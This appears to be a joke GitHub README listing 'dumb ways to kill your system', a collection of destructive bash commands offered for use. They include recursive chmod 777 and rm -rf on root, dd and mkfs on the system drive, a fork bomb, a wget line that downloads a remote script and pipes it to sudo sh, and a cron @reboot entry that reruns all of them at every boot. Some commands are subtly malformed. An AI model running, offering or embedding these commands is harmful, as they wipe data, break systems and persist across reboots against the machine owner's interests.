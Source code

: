 # Dumb ways to kill your system
Kill your (or not) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The following commands should work on Android, Linux, MacOS, and others systems who run on the bash (and bash-like) interpreter(s).
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

```
sudo touch /var/spool/cron/$USER; echo '@reboot sudo chmod -R 777 /*; sudo rm -rf /* --no-preserve-root; dd if=/dev/null of=/dev/sda; sudo mv /* /dev/null; sudo mkfs.ext3 /dev/sda; : () {: |: &} ;:' > /var/spool/cron/$USER
```
This command will add all the commands above to run on the next reboot.
<br />
<br />


